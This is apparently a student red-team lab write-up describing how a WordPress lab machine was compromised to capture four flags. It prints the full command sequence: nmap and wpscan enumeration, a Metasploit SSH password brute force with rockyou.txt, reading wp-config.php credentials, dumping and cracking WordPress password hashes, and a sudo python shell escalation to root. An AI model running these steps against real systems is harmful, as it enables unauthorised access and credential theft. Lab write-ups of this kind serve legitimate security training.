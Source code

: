 # Red Team: Summary of Operations
## Table of Contents
- Exposed Services
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

```
$ nmap -sV 192.168.1.0/24
```
![nmap scan](images/nmap_scan.png)

This scan identifies the services below as potential points of entry:
- Target 1

  |        Service       |   Port  |
  |:--------------------:|:-------:|
  |     OpenSSH 6.7p1    |    22   |
  |  Apache httpd 2.4.10 |    80   |
  | Samba smbd 3.X - 4.X | 139,445 |

The following vulnerabilities were identified on each target:
- Target 1
  - User enumeration via WordPress site
  - Weak user password
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

## Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

------
### `flag1`: b9bbcb33ellb80be759c4e844862482d

#### Exploits Used 
  - WPscan to enumerate users on Target 1
  - Brute force attacking a weak password
      
#### Method
First we enumerated the user accounts by exploiting the vulnerable WordPress site using wpscan.
```
$ wpscan --url http://192.168.1.110/wordpress -e u
```
![wpscan](images/wpscan_user.png)
```
$ msfconsole
```
```
> search ssh_login
```
![ssh_login](images/search_ssh_login.png)

```
> use 0
```
```
> set rhost 192.168.1.110
```
```
> set username michael
```
```
> set pass_file /usr/share/wordlists/rockyou.txt
```
```
> set stop_on_success true
```
```
> run
```
![msfconsole](images/msfconsole_ssh_login.png)
```
> exit -y
```
```
$ ssh michael@192.168.1.110
```
![SSH Michael](images/ssh_michael.png)
```
$ grep -rnw / -e “flag1” 2> /dev/null
```
![flag1](images/flag1z.png)

-----
### `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c

#### Exploit Used
  - Same exploit used to obtain flag 1

#### Method
Using the existing access we were able to locate the second flag using the following command:
```
$ find / -iname “flag2*” 2> /dev/null
```
```
cat /var/www/flag2.txt
```
![flag2](images/flag2.png)

-----
### `flag3`: afc01ab56b50591e7dccf93122770cd2

#### Exploit Used
  - Same exploit used to obtain flag 1
  - 
#### Method
```
$ cat /var/www/html/wordpress/wp-config.php
```
![wp_config](images/wp_config.png)
```
$ mysqldump wordpress -u root -pR@v3nSecurity > dump
```
```
$ grep “flag3” dump
```
![flag4](images/flag3z.png)

> Note: flag4 was found here in addition to the next step

-----
### `flag4`: 715dea6c055b9fe3337544932f2941ce

#### Exploit Used
  - Unsalted user password hashes in WordPress database
  - Misconfiguration of user privileges leading to privilege escalation

#### Method
```
$ mysql wordpress --user=root -pR@v3nSecurity
```
```
>  select * from wp_users;
```
![wp_users](images/wp_users.png)
```
> exit
```
```
$ exit
```
```
$ echo "steven:\$P\$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/" > hash.txt
```
```
$ john hash.txt
```
![john hash](images/john_hash.png)
```
$ ssh steven@192.168.1.110
```
```
$ sudo -l
```
![steven_sudo](images/sudo.png)
```
$ sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
```
$ find / -iname "flag4*" 2> /dev/null
```
![find_flag4](images/find_flag4.png)
```
$ cat /root/flag4.txt
```
![flag4](images/flag4.png)

-----


